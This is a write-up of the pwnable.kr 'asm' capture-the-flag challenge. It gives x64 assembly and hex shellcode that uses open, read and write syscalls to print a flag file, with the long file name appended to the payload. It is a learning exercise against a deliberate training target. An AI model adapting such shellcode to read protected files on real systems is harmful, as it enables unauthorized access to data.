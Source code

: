 # 18 - asm



## The Challenge



Mommy! I think I know how to make shellcodes



ssh asm@pwnable.kr -p2222 \(pw: guest\)



## The Solution



The challenge directory contains a readme:



> once you connect to port 9026, the "asm" binary will be executed under asm\_pwn privilege. make connection to challenge \(nc 0 9026\) then get the flag. \(file name of the flag is same as the one in this directory\)



The directory really contains a file with an awefully long name.



It's time to run the binary:



![The last line and a half is my input, don&apos;t get confused :\)](../.gitbook/assets/image%20%2856%29.png)



Our input should be x64 shellcode that uses only `open, read` and `write` to print the flag. A peek at the source code shows there aren't any shenanigans, it's really what we need to do.



The source also contains shell code which our shell code gets concatinated to. Lets [decode](https://defuse.ca/online-x86-assembler.htm#disassembly2) it:



![](/.gitbook/assets/image%20%2857%29.png)



It zeros the registers. That's actualy quite nice of pwnables side, thanks ^\_^



It's time to write some pure assembly! Using [this](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) wonderful table we created assembly that opens the flag file, reads it and outputs to stdout.



```text

mov rax, 2

mov rdi, 0x4141406f

syscall

mov rdi, rax

mov rax, 0

mov rsi, 0x4141406f

mov rdx, 0x30

syscall

mov rax, 1

mov rdi, 1

syscall



# shellcode: \x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x6F\x40\x41\x41\x0F\x05\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC6\x6F\x40\x41\x41\x48\xC7\xC2\x30\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05

```



You may be asking yourself "what's that address that is assigned to rsi and rdi?" We concatinate the flag file name to the end of the shellcode, and that's it's addess. We also read the flag to the same location. The final shellcode:



```text

\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x6F\x40\x41\x41\x0F\x05\x48\x89\xC7\x48\xC7\xC0\x00\x00\x00\x00\x48\xC7\xC6\x6F\x40\x41\x41\x48\xC7\xC2\x30\x00\x00\x00\x0F\x05\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05\x25\x00\x00\x00\x00\x0F\x05\x74\x68\x69\x73\x5f\x69\x73\x5f\x70\x77\x6e\x61\x62\x6c\x65\x2e\x6b\x72\x5f\x66\x6c\x61\x67\x5f\x66\x69\x6c\x65\x5f\x70\x6c\x65\x61\x73\x65\x5f\x72\x65\x61\x64\x5f\x74\x68\x69\x73\x5f\x66\x69\x6c\x65\x2e\x73\x6f\x72\x72\x79\x5f\x74\x68\x65\x5f\x66\x69\x6c\x65\x5f\x6e\x61\x6d\x65\x5f\x69\x73\x5f\x76\x65\x72\x79\x5f\x6c\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x30\x6f\x6e\x67\x00

```



